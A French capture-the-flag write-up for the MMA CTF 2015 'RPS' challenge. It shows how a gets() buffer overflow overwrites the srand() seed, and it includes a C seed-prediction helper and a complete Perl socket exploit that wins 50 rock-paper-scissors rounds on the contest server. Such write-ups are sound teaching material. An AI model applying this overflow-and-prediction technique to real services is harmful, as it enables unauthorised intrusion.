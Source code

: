 Title: [MMA 2015] RPS (pwn 50)
Date: 2015-09-08
Tags: ctf,exploit
Author: Tosh
Summary: MMA CTF write-up

Voici un petit write-up pour le challenge RPS, du CTF MMA 2015.




### **Analyse**

```
    $ file rps
    rps: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8811962c746e1d068a5fa5b4deb7cb043c30146f, not stripped
```

On a donc un ELF 64 bits.

On comprends assez vite que le but du jeu est de gagner 50 parties de 'Pierre-Feuille-Ciseaux'.

On lance le binaire avec ltrace pour voir un peu ce qu'il fait :

```
    [pid 2942] __libc_start_main(0x400806, 1, 0x7ffea3e43a48, 0x400af0 <unfinished ...>
    [pid 2942] fopen("/dev/urandom", "r")                                                                                 = 0x2524010
    [pid 2942] fread(0x7ffea3e43940, 4, 1, 0x2524010)                                                                     = 1
    [pid 2942] fclose(0x2524010)                                                                                          = 0
    [pid 2942] printf("What's your name: ")                                                                               = 18
    [pid 2942] fflush(0x7fa5ca0cf640What's your name: )                                                                                     = 0
    [pid 2942] gets(0x7ffea3e43910, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1b01234
    )                                                    = 0x7ffea3e43910
    [pid 2942] printf("Hi, %s\n", "1234"Hi, 1234
    )                                                                                 = 9
    [pid 2942] puts("Let's janken"Let's janken
    )                                                                                       = 13
    [pid 2942] fflush(0x7fa5ca0cf640)                                                                                     = 0
    [pid 2942] srand(0xe6503873, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1b0)                                                       = 0
    [pid 2942] printf("Game %d/50\n", 1Game 1/50
    )                                                                                  = 10
    [pid 2942] printf("Rock? Paper? Scissors? [RPS]")                                                                     = 28
    [pid 2942] fflush(0x7fa5ca0cf640Rock? Paper? Scissors? [RPS])                                                                                     = 0
    [pid 2942] getchar(0, 0x7fa5ca0d07a0, 0, 0x7fa5c9e0c1b
```

Chose intéressante ici, une entrée est demandée avec la fonction gets(), qui ne s'occupe pas de vérifier la taille des données reçues.




### **Exploitation**

Voyons ce qu'il se passe lorsque l'on envoit une grande chaine de caractères :


```
    $ perl -e 'print "A"x500;' | ltrace -f ./rps
    ...
    [pid 2992] srand(0x41414141, 0x7f263277f7a0, 0, 0x7f26324bb1b0)
    ...

```

On arrive à écraser la valeur de la graine utilisée par la fonction srand(), ce qui permet de prédire très facilement les nombres générés par la fonction rand() par la suite.


Pour réaliser ceci, j'ai créer un petit programme (get_random) permettant de prédire le nième nombre généré par rand(), lorsque la graine est 0x41414141.


```C
    #include <stdio.h>
    #include <stdlib.h>


    int main(int argc, char **argv) {
      int i;
      int n;

      srand(0x41414141);

      for(i = 1; i <= atoi(argv[1]); i++)
        n = rand();

      printf("%d\n", n);

      return 0;
    }
```

Ensuite, on peut remarquer rapidement qu'un simple modulo sur le nombre aléatoire permet de déterminer quel "coup" choisir.


L'exploit complet :

```
    #!/usr/bin/perl

    use strict;
    use warnings;
    use IO::Socket::INET;

    my $sock = IO::Socket::INET->new(PeerAddr => 'milkyway.chal.mmactf.link',
                              PeerPort => 1641,
                              Proto => 'tcp') || die $@;

    print $sock "A"x100 . "\n";

    sleep(1);

    for(my $i = 1; $i <= 50; $i++) {
        my ($num) = `./get_random $i`;

        if(($num % 3) == 2) {
            print $sock "R\n";
        } elsif(($num % 3) == 0) {
            print $sock "P\n";
        } else {
            print $sock "S\n";
        }
    }

    print while(<$sock>);
```

Une fois les 50 parties gagnées, le flag nous est envoyé !
